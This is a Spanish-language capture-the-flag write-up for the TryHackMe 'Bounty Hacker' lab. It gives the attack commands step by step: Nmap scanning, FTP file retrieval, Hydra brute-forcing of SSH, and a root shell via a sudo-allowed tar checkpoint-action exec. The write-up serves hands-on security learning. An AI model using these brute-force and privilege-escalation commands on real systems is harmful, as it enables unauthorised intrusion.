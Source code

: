 
# 🧪 Write-Up detallado: Bounty Hacker (TryHackMe)

**Nivel:** Principiante  
**Objetivo:** Ganar acceso a un sistema Linux vulnerable mediante FTP, obtener credenciales, acceder por SSH, escalar privilegios y capturar dos flags (usuario y root).  
**Tecnologías involucradas:** FTP, SSH, Linux, Hydra, Escalada vía sudo con tar  
**Categorías:** Pentesting, enumeración de servicios, fuerza bruta, explotación básica, escalada de privilegios.

## 🧭 1. Reconocimiento de superficie

El primer paso fue ejecutar un escaneo de puertos completo usando Nmap para identificar todos los servicios expuestos en la máquina objetivo.

```bash
nmap -sSCV -T4 -p- --min-rate 5000 <IP>
```

Resultado:
- FTP (21)
- SSH (22)
- HTTP (80)

## 📂 2. Acceso y enumeración vía FTP

```bash
ftp <IP>
mget locks.txt task.txt
```

- `task.txt`: nombre de usuario `lin`
- `locks.txt`: posibles contraseñas

## 📝 3. Fuerza bruta SSH con Hydra

```bash
hydra -l lin -P locks.txt ssh://<IP>
```

Credenciales válidas encontradas.

## 📥 4. Acceso SSH y flag de usuario

```bash
ssh lin@<IP>
cat user.txt
```

## 🔓 5. Escalada de privilegios

```bash
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
```

Shell como root obtenida.

## 🏁 6. Flag final

```bash
cd /root
cat root.txt
```

## ✅ Conclusiones

Refuerza:
- Enumeración de servicios
- Uso de Hydra
- Escalada de privilegios con binarios mal configurados (`tar`)
